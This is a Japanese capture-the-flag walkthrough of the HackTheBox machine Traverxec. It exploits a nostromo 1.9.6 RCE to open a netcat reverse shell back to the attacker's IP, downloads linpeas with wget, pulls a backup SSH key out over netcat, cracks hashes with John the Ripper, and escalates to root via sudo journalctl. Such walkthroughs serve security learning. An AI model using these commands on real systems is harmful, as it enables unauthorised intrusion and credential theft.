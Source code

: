 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
GitHub(ペネトレーションテスト用チートシート):  
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet  
Twitter:@yukitsukai1731

# Traverxec
![スクリーンショット 2020-09-02 16.57.53.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e99c556f-2f9b-be62-3361-0a2baccea0a0.png)

HackTheBox公式より
Traverxec is an easy Linux machine that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user david. A bash script in the user's home directory reveals that the user can execute journalctl as root. This is exploited to spawn a root shell.

Traverxecは、リモートコード実行(RCE)に脆弱なNostromo Webサーバを搭載した簡単なLinuxマシンです。Webサーバの設定ファイルを見ると、SSHの資格情報にたどり着き、ユーザーのdavidに横移動できるようになっています。ユーザーのホームディレクトリにある bash スクリプトから、ユーザーが root として journalctl を実行できることがわかります。これは root シェルを生成するために悪用されています。

# Recon(偵察)
Access(10.10.10.98)に対して、スキャンを行います。  
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -oN nmap/initial 10.10.10.165
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -p-...全ポートスキャン
- -oN...通常出力

```
# Nmap 7.80 scan initiated Mon Aug 31 04:08:37 2020 as: nmap -sC -sV -oN nmap/initial 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 31 04:09:11 2020 -- 1 IP address (1 host up) scanned in 33.97 seconds
```

この結果から、22,80番ポートが空いていることが分かります。  
まずは80番ポートを確認してみますが、特にこれといった情報は得られませんでした。
![スクリーンショット 2020-08-31 17.21.07.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e614070c-dac8-4193-c6a6-a55c466dc1b4.png)

次に80番ポートで動作しているサービスに注目します。nostromo 1.9.6というものが動作していることがnmapの結果から確認することができます。

## searchsploit
searchsploitでnostromo 1.9.6について検索してみます。
結果、RCE（Remoto Code Execution）が可能なexploitがヒットしました。
今回はこれを用いて侵入を試みます。
![スクリーンショット 2020-08-31 17.19.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4d64bd24-103b-4b8b-e0ea-e38c277e542e.png)

```
searchsploit -m multiple/remote/47837.py
mv 47837.py cve2019-16278.py
```
# exploitation(侵入)
使用方法は\<Target_ip>,\<Target_port>,\<Command>を指定するだけで良いようです。
![スクリーンショット 2020-08-31 17.22.45.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f1378e00-f610-8b9e-6b3b-9905e89ed32c.png)
netcatで通信を待ち受けます。

```
nc -lvnp 4444
```

そして下記のコードを実行します。

```
python cve2019-16278.py 10.10.10.165 80 "nc 10.10.14.2 4444 -e /bin/bash"
```

これで画像のようにシェルを取得することができます。
またこのままだとシェルが使いにくいので、より使いやすいシェルを取得します。

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![スクリーンショット 2020-08-31 17.38.35.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1a95f2a3-4bc5-4779-82d7-42bad74151e3.png)

# Lateral movement(横展開)
現在の権限だとuser.txtを取得することができないので、別のユーザ権限を取得する必要があります。  
linpeas.shを使用して横展開に利用できる認証情報を探します。  
まずはTraverxecにlinepeas.shを転送します。

```
kali@kali:~/pentest/priv/linux/linPEAS$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

次にtraverxecでwgetを使用し、linpeas.shを受け取って実行します。

```
www-data@travexec:/tmp$wget http://10.10.14.2:8888/linpeas.sh
www-data@travexec:/tmp$chmod 755 linpeas.sh
www-data@travexec:/tmp$./linpeas.sh
```

![スクリーンショット 2020-08-31 18.09.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a7c8acaf-b5f5-a6d5-4bc4-cf9213f2e460.png)

特に下記の.htpasswdファイルについて気になります。
![スクリーンショット 2020-08-31 18.14.28.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e66b8176-27aa-728d-723a-13731e1f0847.png)
閲覧するとパスワードハッシュ情報を取得することができます。
![スクリーンショット 2020-09-02 17.34.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/39b7ef60-53e4-4379-891a-ecee264ef816.png)
このパスワードハッシュをJohnTheRipperを利用してパスワードクラックを行うと、Nowonly4meというパスワードを得ることができます。
![スクリーンショット 2020-09-02 16.53.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/feb79f57-f3d2-4f17-bd0b-58a67230bce8.png)
この情報を使用して、sshでログインを試みますが、ログインすることはできません。  
おそらくこのパスワードはWebサーバの管理者パスワードでsshに使い回しなどはされていませんでした。  
/var/nostromo/confにはもう一つ気になるnhttpd.confファイルがあります。  
中をみてみるとホームディレクトリについて明記されています。
![スクリーンショット 2020-08-31 18.17.07.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4d3e9d56-4b63-a119-4cd0-5d0030a107ad.png)

nostromoのmanページを見てみると、http\://10.10.10.165/~david/のようにアクセスすることでユーザのホームディレクトリにアクセスできることが分かります。  
参照：http://www.nazgul.ch/dev/nostromo_man.html
実際にブラウザに入力してアクセスしてみます。
![スクリーンショット 2020-09-02 17.46.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c7079639-a998-d5bd-7751-007048ae2443.png)
Private spaceと記載されたページが表示されます。  
これらの情報からコンソールからも/home/david/public_wwwフォルダにアクセスしてみるとprotected-file-areaというディレクトリが見つかり、その中にbackup-ssh-identity-files.tgzといういかにも使えそうなファイルを取得することができます。
![スクリーンショット 2020-09-02 17.59.10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/16cbf39b-030e-4823-e575-f95a36df0bbd.png)
このファイルをnetcatを使用して共有します。

```
nc -lvnp 1337 > backup_ssh.tgz
```

```
nc 10.10.14.2 1337 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

ちなみに、netcatを使用しなくともブラウザからhttp\://10.10.10.165/~david/protected-file-areaにアクセスしてみると、認証フォームが出てくるので先ほど入手したユーザ名:david、パスワード:Nowonly4meを利用するとログインすることができます。
![スクリーンショット 2020-09-02 17.49.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/5a203f3c-db0f-2e81-d9a1-f592af84c076.png)

![スクリーンショット 2020-09-02 17.50.07.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2ca730e8-edd4-bb74-20e8-33c92f778a08.png)

```
tar -xvf backup_ssh.tgz
```

取得したファイルを解凍すると、sshに関する鍵が見つかります。
しかし秘密鍵は暗号化されており、パスワードが必要でした。
![スクリーンショット 2020-09-02 18.03.32.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/0d9b00e8-0189-9713-9170-a04e05adeafc.png)
もう一度JohnTheRipperを使用してパスワードクラックを行います。まずはssh2johnでRSA鍵からハッシュを抽出してから、johnを使用してパスワードをクラックします。

```
/usr/share/john/ssh2john.py id_rsa > david_ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt david_ssh.hash
```

![スクリーンショット 2020-09-02 14.21.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/cde66a5b-a1a5-558a-b107-182b1057c968.png)

結果、hunterというパスワードを取得することができ、それを使用することでdavidでログインすることができます。


# Privileges Escalation(権限昇格)
davidでログインするとbinディレクトリが配置されており、中にはserver-stats.shというスクリプトを見つけることができます。
![スクリーンショット 2020-09-03 16.25.34.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a284b90a-220c-5980-0b14-45e4a37481f0.png)

このスクリプトの最後の行でsudo権限でjournalctlを使用しnostromoサービスのログの最後5行を出力していることが分かります。
![スクリーンショット 2020-09-03 16.26.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/fdd57e3e-a532-084e-35d4-e74e397040b1.png)
![スクリーンショット 2020-09-03 16.38.20.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a4d29d54-5337-e312-52b5-79d70cc5d70a.png)
journalctlを使用して権限昇格できないかGoogleで検索したところ以下の情報が見つかりました。
こちらを利用して権限昇格を試みます。
参考:https://gtfobins.github.io/gtfobins/journalctl/
![スクリーンショット 2020-09-03 16.33.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/840564f5-7c71-14a8-0798-2e822e7ff16e.png)
![スクリーンショット 2020-09-03 16.34.55.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b3464963-ef4e-e869-9156-2e51919fac6f.png)
お疲れ様でした。  
root権限を取得することができました。